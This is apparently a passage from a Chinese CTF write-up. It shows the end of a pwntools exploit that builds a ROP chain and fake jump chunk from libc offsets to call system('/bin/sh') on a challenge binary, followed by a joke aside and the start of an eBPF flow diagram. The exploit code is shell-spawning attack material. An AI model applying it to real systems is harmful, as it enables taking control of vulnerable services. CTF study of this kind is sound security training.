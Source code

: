```python

        binsh_addr = libc_addr + next(libc.search(b"/bin/sh"))
        system_addr = libc_addr + libc.symbols['system']
        pop_rdi = libc_addr + 0x000000000010f75b
        syscall = libc_addr + 0x0000000000098fb6
        pop_rax = libc_addr + 0x00000000000dd237
        pop_r13_r14_rbp = libc_addr + 0x000000000002b466
        pop_rsi_rbp = libc_addr + 0x2b46b
        og_off = [0x583ec, 0x583f3, 0xef4ce, 0xef52b]
        onegadget_addr = libc_addr + og_off[3]
        retn8 = libc_addr + 0x67e03
        push_rax_pop_rsp_lea_rsi_raxP0x48_mov_rax_rdiP8_jmp_raxP0x18 = libc_addr + 0x000000000016bdb0
        retn = pop_rdi + 1

        # fake_jmpchunk_addr = libc_addr - (0x723588c00000 - 0x723587b3e250) 本地用
        fake_jmpchunk_addr = libc_addr - (0x71621fae0000 - 0x71621ea1a250)
        # fake_jmpchunk_addr = fake_jmpchunk_addr - 0x80000

        edit(0, 13, p64(fake_jmpchunk_addr))
        edit(0, 84, p64(push_rax_pop_rsp_lea_rsi_raxP0x48_mov_rax_rdiP8_jmp_raxP0x18))

        edit(0, 14, p64(fake_jmpchunk_addr - 0x50))
        edit(0, 15, p64(0x114514))

        edit(0, 60, p64(pop_rdi))

        edit(0, 67, p64(fake_jmpchunk_addr))
        edit(0, 68, p64(retn))
        edit(0, 69, p64(pop_rdi))
        edit(0, 70, p64(binsh_addr))
        edit(0, 71, p64(system_addr)) 

        show()


        io.interactive()
        io.close()
    except EOFError:
        io.close()
    except KeyboardInterrupt:
        io.close()
        break
```

<span class="blackout" title="你知道的太多了">你说的对但是赛宁网安是不是要出事了（仅限 2025/7/17）</span>

```mermaid
graph TD
	D(运行 eBPF 程序流程)
	E[eBPF 虚拟机内部]-->|使用解释器解释\n支持 JIT 就执行机器码|F[（代码运行环境）]
	F-->H[10 个寄存器]
	H-->F
	F-->I[Map 存储]
	I-->F
	J[eBPF Map 相关系统调用]-->|创建|I
	F-->|bpf call|K[eBPF 相关函数（也是做题突破点）]
	K-->|返回值 / 对上下文进行操作|F
	L[eBPF 程序类型]-->|决定|K

